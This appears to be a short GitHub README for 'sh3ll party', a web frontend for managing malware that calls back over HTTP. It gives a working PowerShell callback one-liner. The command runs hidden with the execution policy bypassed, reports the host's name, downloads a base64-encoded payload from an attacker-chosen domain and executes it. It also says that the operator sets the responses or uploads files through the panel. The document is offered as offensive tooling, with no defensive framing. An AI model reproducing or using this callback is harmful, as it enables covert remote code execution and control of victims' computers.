 sh3ll party
-----------
I had malware that called back at specified intervals via http but no frontend to manage it. This is what I came up with.

Callback script: `powershell -w hidden -ep bypass -nop -c "$i=(New-Object System.Net.WebClient);$i.Headers.add('hostid',[net.dns]::GetHostByName('').HostName);IEX([Text.Encoding]::Ascii.GetString([Convert]::FromBase64String(($i.DownloadString('http://your.domain.here')))))"`

Set response manually or upload a file. JQuery based datatables make it pretty. A bunch of shitty javascript makes it functional.

